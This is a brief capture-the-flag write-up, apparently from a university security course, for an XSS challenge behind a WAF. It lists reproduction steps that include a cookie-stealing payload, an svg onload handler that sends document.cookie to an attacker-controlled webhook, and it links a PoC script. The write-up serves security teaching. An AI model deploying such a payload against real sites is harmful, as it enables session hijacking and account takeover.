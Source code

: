 # Challenge `Give me more than a simple WAF` writeup

- Vulnerability: XSS
- Where: `http://mustard.stt.rnl.tecnico.ulisboa.pt:22252` 'link of the bug/feature to report' box
- Impact: Allows an attacker to inject malicious code in the webpage

## Steps to reproduce

1. Get a URL in [Webhook](https://webhook.site/) to collect your http requests
2. URL-encode the script `<svg onload=fetch("`_`<your_webhook_url>`_`?cookie="+document.cookie)></svg>`
3. Write the URL `http://mustard.stt.rnl.tecnico.ulisboa.pt:22252/?search=`_`<url_encoded_script>`_ in the 'link of the bug/feature to report' box and click `Submit`
4. When the admin opens the link the script will be executed, sending a http request to your Webhook URL with his cookies

[(POC)](pocs/give_me_more_than_a_simple_waf_poc.py)
